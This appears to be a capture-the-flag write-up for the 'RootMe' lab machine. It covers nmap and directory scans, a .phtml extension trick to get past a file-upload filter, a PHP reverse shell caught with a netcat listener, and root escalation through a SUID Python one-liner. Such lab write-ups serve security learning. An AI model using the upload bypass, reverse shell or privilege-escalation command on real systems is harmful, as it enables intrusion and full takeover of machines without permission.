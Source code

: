 # RootMe


IP - 10.10.88.7

## Scanning and Enumeration
nmap scan:
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
```
dirsearch:
```
[22:18:58] 403 -   275B - /.php
[22:19:21] 301 -   306B - /css  ->  http://10.10.88.7/css/
[22:19:28] 200 -   616B - /index.php
[22:19:28] 200 -   616B - /index.php/login/
[22:19:30] 200 -   956B - /js/
[22:19:30] 301 -   305B - /js  ->  http://10.10.88.7/js/
[22:19:38] 301 -   308B - /panel  ->  http://10.10.88.7/panel/
[22:19:38] 200 -   732B - /panel/
[22:19:44] 403 -   275B - /server-status
[22:19:44] 403 -   275B - /server-status/
[22:19:50] 301 -   310B - /uploads  ->  http://10.10.88.7/uploads/
[22:19:50] 200 -   741B - /uploads/
```

## Exploit
- http://10.10.88.7/panel is vulnerable to file upload.
- http://10.10.88.7/uploads allows you to see the uploaded files.
- Tested website uploads and found out it allows .txt to be uploaded but .php gets denied.


## Reverse Shell
- In terminal navigate to ``` /usr/share/webshells/php/php-reverse-shell.php ```
- ``` cp php-reverse-shell.php ~/Documents/php_reverse_shell.phtml ``` (copy executable file to "Docuemnts" directory and change the file name to .phtml file).


*The file renamed .phtml to bypass upload restrictions on .php files, allowing us to upload and execute the PHP reverse shell.
![image](https://github.com/user-attachments/assets/b0e1c037-170e-4015-8f3b-68fd40c1035e)

- Upload the executable file in the website and then go to http://10.10.88.7/uploads.
- In the terminal start netcat listener - ``` nc -nlvp 4444 ``` > go back to the website and open the executable file to achieve the reverse shell.

## Post-Exploit
- To find user.txt - ``` find / -iname “user.txt” 2>/dev/null ```


![image](https://github.com/user-attachments/assets/88ea8174-23d7-4b2c-8e80-95ead92d3539)


# Priviledge Escalation
Found interesting file with SUID permissions that will allow priviledge escalation by typing - ``` find / -user root -perm -4000 2>/dev/null ```

reference - https://docs.oracle.com/cd/E19683-01/816-4883/6mb2joatb/index.html

![image](https://github.com/user-attachments/assets/40b3717f-6816-4dac-8153-f76aa1866927)

Escalated priviledges to be root user by typing - ``` ./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")' ```

reference - https://gtfobins.github.io/gtfobins/python/

-> All is left to do is cd into root and cat the file.

